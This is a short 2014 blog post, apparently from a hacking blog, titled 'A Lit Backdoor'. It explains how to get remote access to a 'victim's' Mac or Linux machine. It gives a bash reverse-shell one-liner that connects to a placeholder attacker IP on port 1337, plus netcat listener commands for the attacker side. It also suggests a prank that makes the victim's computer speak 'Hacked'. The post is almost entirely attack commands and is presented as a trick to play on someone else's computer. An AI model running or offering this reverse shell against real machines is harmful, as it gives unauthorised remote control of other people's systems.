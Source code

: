 Title: A Lit Backdoor
Date: 2014-06-21 2:00
Category: Exploitation
Tags: Reverse_shell netcat

I was never a big fan of Macbooks. Being a penguin user for so long, you learn to stop worrying and love love the bomb. But here is a little trick that works for both.

In the victim's machine (presumably a macbook), create the reverse shell in the port 1337:

```bash
$ sh -i >& /dev/tcp/ATTACKERS_IP/1337 0>&1
```

Now just netcat to it. From a Linux machine:

```bash
$ nc -l -p 1337
```

Or from a Macbook:
```bash
$ nc -l 1337
```

You should get shell. A cute prank is making the victim's computer talk:

```bash
$ say Hacked
```

:)

----

**Aloha, bt3**